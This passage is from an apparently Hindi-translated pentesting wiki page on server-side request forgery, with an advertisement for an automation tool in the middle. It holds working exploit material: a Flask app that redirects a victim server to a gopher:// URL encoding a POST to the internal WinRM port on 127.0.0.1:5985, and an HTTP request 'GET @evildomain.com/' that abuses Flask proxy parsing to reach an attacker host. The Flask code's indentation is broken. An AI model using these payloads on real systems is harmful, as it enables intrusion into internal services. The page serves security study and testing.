 ```python
httpd.socket = ssl.wrap_socket(httpd.socket, certfile="server.pem", server_side=True)
httpd.serve_forever()
```

```python
from flask import Flask, redirect
from urllib.parse import quote
app = Flask(__name__)

@app.route('/')
def root():
return redirect('gopher://127.0.0.1:5985/_%50%4f%53%54%20%2f%77%73%6d%61%6e%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20', code=301)

if __name__ == "__main__":
app.run(ssl_context='adhoc', debug=True, host="0.0.0.0", port=8443)
```
<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm\_source=hacktricks\&utm\_medium=text\&utm\_campaign=ppc\&utm\_term=trickest\&utm\_content=ssrf-server-side-request-forgery) का उपयोग करें ताकि आप दुनिया के **सबसे उन्नत** सामुदायिक उपकरणों द्वारा संचालित **वर्कफ़्लो** को आसानी से बना और **स्वचालित** कर सकें।\
आज ही एक्सेस प्राप्त करें:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=ssrf-server-side-request-forgery" %}

## SSRF के लिए गलत कॉन्फ़िगर किए गए प्रॉक्सी

[**इस पोस्ट से ट्रिक्स**](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies).

### Flask

<details><summary>Flask प्रॉक्सी कमजोर कोड</summary></details>

Flask **`@`** को प्रारंभिक वर्ण के रूप में उपयोग करने की अनुमति देता है, जो **प्रारंभिक होस्ट नाम को उपयोगकर्ता नाम** बनाने और एक नया इंजेक्ट करने की अनुमति देता है। हमले का अनुरोध:
```http
GET @evildomain.com/ HTTP/1.1
Host: target.com
Connection: close
```
### Spring Boot <a href="#heading-ssrf-on-spring-boot-through-incorrect-pathname-interpretation" id="heading-ssrf-on-spring-boot-through-incorrect-pathname-interpretation"></a>
